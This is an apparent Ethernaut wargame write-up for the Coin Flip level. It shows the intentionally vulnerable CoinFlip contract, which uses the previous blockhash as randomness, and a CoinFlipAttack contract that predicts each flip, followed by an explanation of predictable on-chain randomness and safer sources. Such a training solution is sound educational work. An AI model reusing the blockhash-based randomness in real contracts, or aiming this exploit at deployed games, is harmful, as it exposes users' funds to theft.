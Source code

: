 ## Ethernaut-solution

### 3.Coin Flip  
 *Filiping => used for emphasis or to express mild annoyance.<br>
 *consective => following each other continuously.

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

See the Help page above, section "Beyond the console"

```solidity
/CoinFlip.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }
 //[global function and global variable](https://docs.soliditylang.org/en/latest/units-and-global-variables.html?highlight=block#block-and-transaction-properties)
  
  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1))); 
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

```solidity
/CoinFlipAttack.sol 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipAttack {

  CoinFlip public victimContract;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _victimContractAddr) public {
    victimContract = CoinFlip(_victimContractAddr);
  }

  function flip() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = uint256(blockValue/FACTOR);
    bool side = coinFlip == 1 ? true : false;
    victimContract.flip(side);
  }
}
```

---

Level completed!
Difficulty 3/10

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).
















